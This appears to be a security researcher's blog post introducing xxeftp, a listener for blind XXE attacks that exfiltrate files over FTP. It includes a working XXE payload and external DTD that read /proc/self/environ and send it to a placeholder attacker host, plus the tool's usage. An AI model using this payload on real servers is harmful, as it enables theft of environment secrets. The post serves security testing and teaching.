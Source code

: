 ```yaml
---
layout: post
title:  "XXE FTP Server - A {web,ftp}-server for XXE"
date:   2016-12-11 17:14:39
categories: security xxe
---
```


## XXE - FTP OoB basics

XXE offers a great attack avenue for reading files from a vulnerable web-app. One of my favourite XXE attacks involves protocol handler abuse, where you use FTP to do an out of band read. This is useful in those cases where you have XXE but it is blind. Unlike the normal OoB retreival through HTTP, FTP works with newer versions of Java (>1.7) and there are fewer characters which break the retrieval. HTTP usually breaks as you either hit an invalid character, such as #, or the URL length is exceeded.

Using FTP to retrieve files through XXE is not new and has been covered in depth in a number of places. The attack looks similar to your HTTP OoB retrieval, except you swith the protocol handler to FTP.

XXE Payload:

```
<?xml version="1.0" ?>
<!DOCTYPE a [
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>
```

And the External DTD:

```
<!ENTITY % d SYSTEM "file:///proc/self/environ">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```

Some more examples of this can be found in my [XXE gist](https://gist.github.com/staaldraad/01415b990939494879b4).

## XXE FTP Server

One of the irritations I first ran into when doing this form of XXE was setting up the FTP server. Sure you can have a netcat listener that receives the connection and then you clean up the data, but how about a nice all in one solution? For this I wrote [xxeftp](https://github.com/staaldraad/xxeserv), which sets up a custom FTP server which will receive our payload, extract the data being sent, and return the original version of the file. Quick, clean and easy.

Another irritation encountered in the past has been servers that can only connect out on one port (80 or 443), meaning we need to setup multiple hosts for our XXE attack. One to serve our external DTD and one to receive the FTP payload. To simplify this, I decided to build a "magic" protocol decode into xxeftp. What this means is that it's possible to serve HTTP, HTTPS and FTP on a single port. Now you need one host, with one port and your attack can proceed as normal.

To make this work, you simply need to use xxeftp with the "uno port" option, ```-uno <port>``` , which will setup our multi-listener on the specified port. When a connection is received, the first few bytes will be examined. If the first byte is 0x22, we have  a TLS connection, if 0x71, it's HTTP, otherwise treat it as FTP.

### Usage

Usage is super basic,

```
Usage of ./xxeftp:
  -o string
    	File location to log to
  -p int
    	Port to listen on (default 2121)
  -uno int
    	Global port to listen on (default 5000)
  -w	Setup web-server for DTDs
  -wd string
    	Folder to server DTD(s) from (default "./")
  -wp int
    	Port to serve DTD on (default 2122)
  -wps int
    	SSL Port to serve DTD on (default 2123)
```

The server will automatically generate TLS certificates for the connection if none exist in the web-server directory. Alternatively create cert.pem and key.pem in the web-server directory.

```
sudo ./xxeftp -uno 443 ./xxeftp -w -wps 5555
```

This will setup the server to listen globally on port 443, create a webserver on port 2122, HTTPS web-server on port 2123 and an FTP server on port 2121. If connections come into port 443, it will internally forward the traffic to the correct port/service. Alternatively you can directly send traffic to the desired port.

Have phun,
